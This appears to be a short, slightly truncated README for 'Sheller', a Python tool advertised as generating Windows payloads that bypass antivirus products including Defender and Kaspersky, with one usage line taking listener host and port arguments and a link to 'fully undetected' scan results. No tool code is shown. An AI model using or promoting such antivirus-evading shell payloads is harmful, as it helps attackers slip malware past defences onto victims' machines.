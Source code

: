 # Sheller

ndows Exploitation Tool to bypass all known Antivirus scanner including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.

![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)


python sheller.py -s xy.bat -lh lh -lp 12 -b64: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

